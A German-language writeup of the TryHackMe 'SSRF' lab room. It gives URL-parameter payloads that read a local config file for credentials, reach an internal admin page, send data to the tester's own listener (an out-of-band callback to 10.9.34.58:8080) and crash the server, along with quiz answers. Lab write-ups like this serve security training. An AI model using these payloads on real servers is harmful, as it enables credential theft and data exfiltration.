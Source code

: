 ```yaml
---
layout: writeup
title: TryHackMe SSRF
description: "Ein Writeup des TryHackMe Raums SSRF"
date: 18.01.2024
link: "https://tryhackme.com/room/ssrfhr"
tags: [ssrf, thm, owasp, web]
---
```


Der Raum SSRF behandelt “Server Side Request Forgery”, eine Sicherheitslücke in Webanwendungen, die es ermöglicht unerlaubte Anfragen über den Webserver an andere zu senden. Diese Sicherheitslücke führt oft zu Datenlecks, Denial of Service oder Remote Code Execution.

### Anatomy of SSRF Attack

Die Antwort befindet sich in der vierten Spalte des OWASP Ranking für SSRF.

### SSRF Against a Local Server

Um den Nutzernamen, das Password und die Admin URL zu finden, muss per URL Parameter zu `localhost/config` gesetzt werden: `http://hrms.thm/?url=localhost/config`

Dadurch werden die Antworten im Footer der Webseite angezeigt.

#TODO: Bild einfügen

<img src="C:\Users\citha\AppData\Roaming\Typora\typora-user-images\image-20240117224441205.png" alt="image-20240117224441205" />

Um die Flagge zu erhalten muss man sich anschließend mit diesen Daten anmelden.

### Accessing an Internal Server

Die Antwort auf die erste Frage ist “yea”.

Um die Flagge des Admin Panels zu erhalten, muss im Category Dropdown die URL im `value` Attribut so geändert werden, dass sie zu `admin.php` verlinkt.

<img src="C:\Users\citha\AppData\Roaming\Typora\typora-user-images\image-20240118101957419.png" alt="image-20240118101957419" />

Anschließend muss im Dropdown die veränderte Option ausgewählt werden

<img src="C:\Users\citha\AppData\Roaming\Typora\typora-user-images\image-20240118102132066.png" alt="image-20240118102132066" />

Danach wird die Seite aktualisiert und man erhält die Admin Flagge.

### Blind SSRF With Out-Of-Band

Die Antwort zur ersten Frage ist “nay”.

Um die zweite und dritte Frage zu beantworten, muss in die URL die Adresse des Python Servers angegeben werden. `http://hrms.thm/profile.php?url=http://10.9.34.58:8080`

Nach einer kurzen Wartezeit, erscheint die Datei `data.html` im gleichen Ordner wie der Server. Die Datei kann anschließend im Browser geöffnet werden, um die Antworten zu finden.

<img src="C:\Users\citha\AppData\Roaming\Typora\typora-user-images\image-20240118150428785.png" alt="image-20240118150428785" />

<img src="C:\Users\citha\AppData\Roaming\Typora\typora-user-images\image-20240118150551397.png" alt="image-20240118150551397" />

### Crashing the Server

Nachdem man die URL so veränder, dass ein Bild mit mehr als 100KB aufgerufen wird, wird die Flagge angezeigt: `http://hrms.thm/url.php?id=192.168.2.10/bigImage.jpg`

### Remedial Measures

Die Antwort für die erste Frage ist `b` und für die letzte Frage `nay`.